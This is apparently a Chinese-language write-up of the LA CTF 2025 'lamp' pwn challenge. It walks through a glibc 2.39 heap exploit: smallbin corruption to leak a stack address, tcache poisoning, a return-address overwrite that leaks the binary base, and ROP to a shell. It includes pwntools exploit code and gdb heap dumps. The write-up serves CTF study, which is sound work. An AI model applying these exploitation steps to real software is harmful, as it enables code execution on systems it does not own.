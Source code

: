 # lamp

我觉得是时候该接受我这辈子都学不会ctf的事实了，从pwn开始

参考wp： https://jonathankeller.net/ctf/lamp

题目设置：
- 可以分配任意个大小在0-0xff之间的chunk
- 每个chunk在分配到手后有任意大小的overflow，但这也是唯一一次可以（直接）往该chunk里写东西的机会
- 无free
- 无文件流（file streams），于是不能用fsop
- libc 2.39

第一步肯定是用喜闻乐见的house of tangerine free掉top chunk，从而利用bins的结构来实现一些攻击。wp提供了稳定实施house of tangerine的函数。偷了，下一步

第二步是尝试使分配器返回堆地址，因为2.39里栈上的rop算是最直接的rce方式。smallbins其实是个环形的双向链表结构，而头指针（head pointer）在libc里。意味着启用smallbin后，堆上会有一个指向libc的指针；加上有溢出的漏洞，可以做个partial overwrite，使那个libc指针指向`__libc_argv`（内含栈地址）。再修改一个smallbin使其指向包含libc指针的smallbin，最后分配时就能连着把栈地址也拿出来了

不过堆分配器拿smallbin时不是一个一个拿的，而是当tcache耗尽后，一次性拿出足够填满tcache的堆块。于是要注意smallbins的数量要正好，正好卡在tcache准备拿到损坏的chunk之前。这样还不够，想要这么做需要确保argv和environ里有正确的设置，因为smallbins会在不同的地方检查指针。这题正好提供了一个run文件来保证配置正确

好了欢迎来到噩梦堆风水。光看wp根本看不懂，以下是一些补充
```py
#每个pause处对应下方的一个layout
    print("fake", hex(fake_bins))
    print("target", hex(target_bin))
    print("start", hex(start_bin))

    gdb.attach(p)
    pause()
    p.send(b"58")
    BINS = 0
    for i in range(BINS):
        # This ended up being unused, it was here to help control the length
        # of the list of smallbins leading to the bin we wanted to overwrite
        p.send(p64(fake_bins + (i+1)*0x20)) # dummy
        p.send(p64(fake_bins + (i+1)*0x20)) # dummy
        p.send(p64(fake_bins + (i+1)*0x20)) # fd
        p.send(p64(fake_bins + (i+1)*0x20)) # bk

    p.send(p64(target_bin))
    p.send(p64(target_bin))
    p.send(p64(target_bin))
    p.send(p64(target_bin))
    p.send(b"X" * (target_bin - fake_bins - BINS*0x20 - 0x18))
    p.send(b"\x00" * 16)
    p.send(b"\xc8\x46\n")
    pause()
    p.send(b"30")
    p.send(b"Y" * (start_bin - start_overwrite_from))
    p.send(p64(target_bin))
    p.send(p64(target_bin))
    p.send(p64(target_bin))
    p.send(p64(target_bin))
    p.send(b"\n")
    pause()
    # Pop the tcache entries.
    for i in range(7):
        p.send(b"58\n")

    # Pop a smallbin entry, causing malloc to move entries from the smallbin to the tcache
    p.send(b"58\n")
    pause()
```
```
fake 0x5c8150256f90
target 0x5c8150278f78
start 0x5c8150366f90
```
这三个值还挺重要的
```sh
#第二步开始前的布局
tcachebins
0x20 [  1]: 0x5c815018b2a0 ◂— 0
0x40 [  3]: 0x5c8150344fb0 —▸ 0x5c8150322fb0 —▸ 0x5c8150300fb0 ◂— 0
0x60 [  7]: 0x5c8150256f90 —▸ 0x5c8150234f90 —▸ 0x5c8150212f90 —▸ 0x5c81501f0f90 —▸ 0x5c81501cef90 —▸ 0x5c81501acf90 —▸ 0x5c815018bf90 ◂— 0
fastbins
0x60: 0x5c81503aaf80 ◂— 0
unsortedbin
empty
smallbins
0x60: 0x5c8150388f80 —▸ 0x5c8150366f80 —▸ 0x5c81502def80 —▸ 0x5c81502bcf80 —▸ 0x5c815029af80 —▸ 0x5c8150278f80 —▸ 0x7bdd81c03b70 ◂— 0x5c8150388f80
```
请记住这一切正常的样子（
```sh
#X溢出后的布局
tcachebins
0x20 [  1]: 0x5c815018b2a0 ◂— 0
0x40 [  3]: 0x5c8150344fb0 —▸ 0x5c8150322fb0 —▸ 0x5c8150300fb0 ◂— 0
0x60 [  6]: 0x5c8150234f90 —▸ 0x5c8150212f90 —▸ 0x5c81501f0f90 —▸ 0x5c81501cef90 —▸ 0x5c81501acf90 —▸ 0x5c815018bf90 ◂— 0
fastbins
0x60: 0x5c81503aaf80 ◂— 0
unsortedbin
empty
smallbins
0x60 [corrupted]
FD: 0x5c8150388f80 —▸ 0x5c8150366f80 —▸ 0x5c81502def80 —▸ 0x5c81502bcf80 —▸ 0x5c815029af80
 —▸ 0x5c8150278f80 —▸ 0x7bdd81c046c8 ◂— 0
BK: 0x5c8150278f80 —▸ 0x5c815029af80 —▸ 0x5c81502bcf80 —▸ 0x5c81502def80 —▸ 0x5c8150366f80
 ◂— ...
```
这一步还好理解，作用是修改原本的libc指针，使其指向`__libc_argv`
```sh
#Y溢出后的布局
tcachebins
0x20 [  1]: 0x5c815018b2a0 ◂— 0
0x40 [  2]: 0x5c8150322fb0 —▸ 0x5c8150300fb0 ◂— 0
0x60 [  6]: 0x5c8150234f90 —▸ 0x5c8150212f90 —▸ 0x5c81501f0f90 —▸ 0x5c81501cef90 —▸ 0x5c81501acf90 —▸ 0x5c815018bf90 ◂— 0
fastbins
0x60: 0x5c81503aaf80 ◂— 0
unsortedbin
empty
smallbins
0x60 [corrupted]
FD: 0x5c8150388f80 —▸ 0x5c8150366f80 —▸ 0x5c8150278f78 ◂— 0
BK: 0x5c8150278f80 —▸ 0x5c815029af80 —▸ 0x5c81502bcf80 —▸ 0x5c81502def80 —▸ 0x5c8150366f80
 ◂— ...
```
从这一步开始要留个心眼了。smallbin和tcache管理堆块的方式不同。smallbin中的堆块地址指向堆块的header部分；而tcache则是指向数据（fd）。所以如果想要修改`0x5c8150366f80`的fd，得溢出到`0x5c8150366f90`。这里我们将chunk start（`0x5c8150366f90`）的fd覆盖成了chunk target（`0x5c8150278f78`）。`0x5c8150278f78`其实就是原本fd包含libc地址的chunk地址（位于`0x5c8150278f80`）减8，原因在于后续从smallbin拿chunk填充tcache时走的是bk链，所以我们需要使libc地址位于bk处，而不是原本的fd
```sh
#清空tcache后的布局
tcachebins
0x20 [  1]: 0x5c815018b2a0 ◂— 0
0x40 [  2]: 0x5c8150322fb0 —▸ 0x5c8150300fb0 ◂— 0
0x60 [  7]: 0x7fffad926878 —▸ 0x7bdd81c046d8 —▸ 0x5c8150278f88 —▸ 0x5c8150366f90 —▸ 0x5c81502def90 —▸ 0x5c81502bcf90 —▸ 0x5c815029af90 ◂— 0
fastbins
empty
unsortedbin
empty
smallbins
0x60 [corrupted]
FD: 0x5c8150388f80 —▸ 0x5c8150366f80 ◂— 0x5c849838ecf6
BK: 0x7fffad926fd1 ◂— 0x706d616c2f2e11
```
smallbins进tcache的顺序是倒着来的。不过我不确定为什么从`0x5c815029af80`开始。末尾的`0x5c8150278f80`倒着走一直走到`0x5c8150366f80`，下一个是`0x5c8150278f88`。由于错位，bk处正好是libc地址；再下一个正好是栈地址。此时正正好好7个填满tcache，程序不会崩溃

目前tcache里有了个栈地址。可是我们不知道任何地址，写也不知道写什么；而且只有一个地址，想要leak再写也至少要两个地址；再者，目前的地址指向程序的参数和环境变量，离栈底部非常远

第二个问题还是很好解决的。tcache+溢出，明显的tcache poisoning。可以将`tcache[40]->next`覆盖成tcache_entry(tcache_perthread_struct)；此时`malloc(0x38)`就能覆盖tcache结构。用一次溢出将tcache结构修改成如下样子：
- 将管理counts的地方覆盖成大数字从而欺骗堆管理器使其认为tcache不会耗尽
- 将`tcache[0x20]`和`tcache[0x40]`里的指针覆盖成`tcache[0x80]`（跳过奇数元素，保证malloc不会破坏关键内容。wp没有说为什么会破坏，个人猜测是因为奇数大小堆块管理时会稍微错位某些地方）
- 对`tcache[0x60]`指向的栈地址进行partial overwrite，期望覆盖后能够指向栈上更高的地址

此时malloc `tcache[0x40]`就能从`tcache[0x80]`处开始继续修改tcache entry。接着将`tcache[0x80]`指向`tcache[0x60]`，同时将后续的`tcache[0xa0]`,`tcache[0xc0]`到`tcache[0x100]`都覆盖成`tcache[0x80]`。然后malloc `tcache[0x80]`会得到`tcache[0x60]`，同时`tcache[0x80]`将指向`tcache[0x60]`指向的内容，即那个栈地址。不过这个栈地址是加密的，需要连续调用两次加密函数才能得到原本的栈地址。之前覆盖的一堆指向`tcache[0x80]`的bins就派上用场了，全部malloc一遍就能得到原本的栈地址了

假设前面的partial overwrite成功了，我们手中的栈地址确实指向了某块活跃的栈部分。目前的问题是仍然没有任何泄漏的地址。这就不得不品大佬的天才做法了。查看题目使用的`gets`函数的[实现](https://github.com/uclaacm/lactf-archive/blob/main/2025/pwn/lamp/lamp.c)，不断调用read，一次只读一个字节，直到接收到`\n`。于是可以不断往这个栈地址里写`\x1f`，总有一天会碰到read调用后的返回地址。原本read调用后的返回地址位于binary的`0x114d`处，我们改成`0x111f`后，返回地址就成了main开头调用`write`的地方。此处会把rbx里的地址打印出来，正好rbx内含代码段地址。成功同时得知了binary的代码段地址和手中的栈地址相对于read的返回地址的偏移

现在就可以用堆上的两个栈指针来编写rop链了。第一个栈地址用于编写read返回地址后的rop链，同时保证不修改read的返回地址（因为一次只读一个byte，不能在后续rop链完成前就返回到rop链）；第二个栈地址用于修改read的返回地址

但是又有问题了。实操中read返回地址后是存储用户输入的malloc大小的地方，会损坏我们设计的rop链。不过还有办法。任何指针的前两个字节都是0，加上以小端存储；假如我们输入的大小只有一个字节，便只会覆盖掉rop链顶部的一个字节。那我们让这个大小等同于原rop链顶部的字节不就好了？这个方法只需要保证`tcache[0x20]` bin里有合法的栈地址

现在只需用上述提到的方法写一个泄漏libc地址的rop链，再拿泄漏的地址构造getshell的rop链即可

题目作者官方的省流版本： https://enzo.run/posts/lactf2025